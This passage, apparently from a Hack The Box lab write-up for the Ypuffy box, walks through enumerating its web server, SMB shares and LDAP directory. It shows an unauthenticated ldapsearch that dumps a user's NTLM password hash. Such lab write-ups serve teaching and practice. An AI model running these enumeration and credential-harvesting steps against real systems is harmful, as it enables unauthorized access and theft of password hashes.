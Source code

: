 ### Web server enumeration

The server doesn't respond with anything when we connect to it:

```
root@ragingunicorn:~# curl 10.10.10.107
curl: (52) Empty reply from server
```

We'll come back to this later when we get user access to the box.

### SMB share enumeration

I got an access denied when trying to check the shares. We'll need the credentials to enumerate this further. More on this later on.

```
root@ragingunicorn:~# smbmap -H 10.10.10.107
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
	Disk                                                  	Permissions
	----                                                  	-----------
[!] Access Denied
```

### LDAP enumeration

To enumerate the LDAP, we need to give it the base dn to for the search. When I checked the output from nmap I saw the `ypuffy.hackthebox.htb` FQDN from the SMB discovery script. So I tried `hackthebox.htb` as domain to search from, luckily the box doesn't require authentication to pull data from it.

The most interesting entry is this one for `alice1978` because it contains an NTLM hash. The `userPassword` field is not useful, it just contains `{BSDAUTH}alice1978` in base64 encoded format.

```
root@ragingunicorn:~# ldapsearch -h 10.10.10.107 -x -b "dc=hackthebox,dc=htb"
[...]
# alice1978, passwd, hackthebox.htb
dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb
uid: alice1978
cn: Alice
objectClass: account
objectClass: posixAccount
objectClass: top
objectClass: sambaSamAccount
userPassword:: e0JTREFVVEh9YWxpY2UxOTc4
uidNumber: 5000
gidNumber: 5000
gecos: Alice
homeDirectory: /home/alice1978
loginShell: /bin/ksh
sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
displayName: Alice
sambaAcctFlags: [U          ]
sambaPasswordHistory: 00000000000000000000000000000000000000000000000000000000
sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
sambaPwdLastSet: 1532916644
[...]
```
